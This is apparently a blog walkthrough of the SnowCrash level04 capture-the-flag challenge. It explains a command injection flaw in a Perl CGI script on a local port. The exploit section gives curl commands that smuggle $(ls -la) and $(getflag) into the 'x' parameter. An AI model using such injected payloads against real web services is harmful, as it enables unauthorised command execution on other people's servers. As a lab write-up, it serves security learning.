 ```yaml
---
title: SnowCrash level04 - Walkthrough 👾 
tags:
  - ctf
  - cgi
  - perl
  - exploit
  - command-injection
  - web
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:37:32
---
```


![snowcrash](/images/snowcrash.png)

### Introduction

In level 04, we encountered a Perl CGI script (`level04.pl`) vulnerable to command injection. By manipulating the input parameter, we were able to execute arbitrary commands on the server.

### Vulnerability

The Perl script listens on port 4747 and accepts an "x" parameter via HTTP GET requests. It then directly echoes the parameter value without proper sanitization, leading to command injection.

### Exploitation

1. **Testing the Script**
   We tested the script by providing simple input:
   ```sh
   curl -d x="test" http://127.0.0.1:4747
   ```
2. Result: test

    Exploiting Command Injection
    We injected commands to list files in the directory:
    ```shell
    curl -d x="\$(ls -la)" http://127.0.0.1:4747
    ```
    Result: Directory listing displayed.
3. Obtaining the Flag
    Finally, we executed getflag to retrieve the flag:
    ```shell
    curl -d x="\$(getflag)" http://127.0.0.1:4747
    ```

# Conclusion

By exploiting the command injection vulnerability in the Perl CGI script, we successfully executed arbitrary commands on the system, ultimately obtaining the flag for level 04.
